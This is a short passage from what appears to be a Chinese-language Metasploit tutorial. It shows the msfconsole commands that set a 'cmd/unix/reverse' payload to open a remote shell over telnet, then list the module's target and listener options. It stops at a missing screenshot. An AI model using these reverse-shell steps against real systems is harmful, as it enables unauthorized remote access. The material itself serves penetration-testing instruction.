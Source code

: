 ![此处输入图片的描述](../imgs/wm_47.png)

设置 payload 为 `cmd/unix/reverse` 类型，通过 telnet 创建远程 Shell：

```
msf > set payload cmd/unix/reverse
```

查看当前的配置参数，这里会列出当前我们要使用的攻击模块和 payload 的相关参数，包括攻击的目标地址，攻击的目标端口以及后门 Shell 监听的端口号等：

```
msf > show options
```

参数列表截图：
